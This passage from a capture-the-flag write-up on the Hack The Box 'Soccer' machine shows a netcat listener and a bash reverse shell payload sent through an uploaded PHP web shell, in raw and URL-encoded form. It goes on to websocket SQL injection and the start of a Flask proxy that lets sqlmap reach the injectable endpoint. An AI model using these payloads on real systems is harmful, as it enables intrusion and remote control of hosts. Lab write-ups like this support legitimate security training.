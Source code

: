 Now for the reverse shell, set up a listener in the host machine nc -lvnp 4444  
Payload for the reverse shell: 
```bash
http://soccer.htb/tiny/uploads/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.32/4444 0>&1'
```
- Url Encoded: 
```bash
http://soccer.htb/tiny/uploads/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2fdev%2ftcp%2f10.10.14.32%2f4444%200%3E%261%27
```
    
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfuehsf-cLZ9na1bNcRgVXVUA8MfvqOmep5p3HRbDNNuNX11bDQRzgWzDMAcLjRrnplOJ1JtG3FoO-k3NNn0ZJpik_uymCbVmmXA_H6zMSLkAQbYvR_xpYP9RE2hJvID7SaFQbcrw?key=q9MaodwMauRwDznDaBSNew)

### Second Recon

Now that we have accessed command execution on the Tiny File Manager server, notice that we are login as www-data user and do not have access to any user.txt file. After some enumeration on the server, we will find that there is another virtual host hosted in the server under /etc/nginx/site-enabled/soc-player.htb - soc-player.soccer.htb.  

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcx8tKvDpd5RfQbV7p8LmGrLWz8iWFEhcj6ZplL4GpSyflLmvOn6HZ-rSZDs_vlNmpDZ4oJsllvsSdYaNGKwxQ5fZhgelg9-QMeW4r4orGM-FiS4pN97PGvOYVQBR5Ls-6pwcoceQ?key=q9MaodwMauRwDznDaBSNew)

### Soc-player.soccer.htb Fingerprinting 
- Running on a Node Express JS Application (based on the error message) - [ref](https://0xdf.gitlab.io/cheatsheets/404#:~:text=this%20template.-,Express,-Express%20is%20a) 
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcHHE2_qNZdAWGljt4MLAd_xG8781ocXWHBP1x_AvX37yb6h5DoJayjnxiaX3_5Y35qDgZBOronkcOJLdlv5bUy-4wN4yn2JBf-SWhbUbS7jaNJIOW0cun4Oxw9d8p8U5g9Ac0UYA?key=q9MaodwMauRwDznDaBSNew)
- Allows user signup and login 
- A ticketing system that allows user to view ticket information 
    
### Second Exploit 
After some testing in the application, found that the application is vulnerable to SQL injection under /check, which uses a websocket connection to send the request 

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeCgZr2BC7ib1ASU0rp3qEqbycSxv5ar8ZmugJIzRN7SGMw5LLB5VDnAJg8VCIDZCdAUGZN4A2-kdtw8VMVMLb4HprUa-EBlUOMhjEtDX6ce9UvHEyEso02BtAccEA0sCgKMeOt?key=q9MaodwMauRwDznDaBSNew)

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXffll4ekBBlOhBgmLOaSqRs7G2TPxBYg7ipAokVblxxOpLlxVBdpYDer05hr-hrIDwYK6lJJfslheOUKoK5U6jp1Q3yDmv3CZ7DJSmrrGPx60KmtUPwBuGlNQ21cg6lp5EXxpym6g?key=q9MaodwMauRwDznDaBSNew)

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXc1XWEPBIkBSp1f5DcVz8E-1Po0k0d_cPOLrY7suF-fgYfIpr1_nfzddxzMshQkT5j0LV2kxSkCydSp3PzAAQiH2J2Axst8cV_cgEEA1w-2tR2i7x1i5OeD9SjbIXoezSMzZtLHJg?key=q9MaodwMauRwDznDaBSNew)

As this is a boolean based SQL injection, sqlmap is used to speed up the sql injection. But as the vulnerable web request uses websocket, a simple flask proxy server is created that converts http request to websocket connection so that sqlmap will be able to send the sql injection payload to the websocket endpoint.  

```python
from flask import Flask
from flask import request
import asyncio
import websockets
import json

async def connect_and_send(payload):
    uri = "ws://soc-player.soccer.htb:9091"  
    try:
        async with websockets.connect(uri) as websocket:
            message_to_send = {"id": payload}

            # Send a request
            await websocket.send(json.dumps(message_to_send))
            print(f"Sent: {message_to_send}")

            # Optionally, receive a response
            response = await websocket.recv()
            print(f"Received: {response}")
```